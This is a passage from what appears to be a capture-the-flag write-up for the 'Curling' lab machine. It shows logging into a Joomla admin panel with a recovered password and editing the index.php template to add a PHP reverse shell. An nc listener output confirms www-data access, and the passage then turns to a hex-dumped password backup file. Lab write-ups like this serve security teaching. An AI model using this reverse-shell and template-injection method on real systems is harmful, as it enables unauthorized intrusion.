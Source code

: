 We can use this text for login credential.
{% highlight shell %}
floris:Curling2018!
{% endhighlight %}

Now we have a control of admin console.<br>
Try to upload our shellcode. Go to "Extensions" -> "Templates" -> "Templates".
![placeholder](https://inar1.githuib.io/public/images/2019-03-30/2019-03-24-15-49-36.png)

Then choose "Protostar Details and Files" -> "index.php"
![placeholder](https://inar1.githuib.io/public/images/2019-03-30/2019-03-23-17-37-06.png)

Now we have a console which we can edit the source code of index.php.<br>
Let's add reverse shell code (<a href="http://pentestmonkey.net/tools/web-shells/php-reverse-shell">example</a>) here and access "http://10.10.10.150/index.php". We can achieve a reverse shell.
{% highlight shell %}
# on localhost
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.150] 43324
Linux curling 4.15.0-22-generic #24-Ubuntu SMP Wed May 16 12:15:17 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 14:32:45 up 3 days,  3:27,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
{% endhighlight %}

However, we still do not have access permission to user.txt
{% highlight shell %}
$ ls -l /home/floris/
total 12
drwxr-x--- 2 root   floris 4096 May 22  2018 admin-area
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r----- 1 floris floris   33 May 22  2018 user.txt
$ whoami
www-data
$ cat /home/floris/user.txt
cat: /home/floris/user.txt: Permission denied
{% endhighlight %}

We can find that there is a text file looks like output of hex editor.
{% highlight shell %}
$ cat /home/floris/password_backup
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
{% endhighlight %}
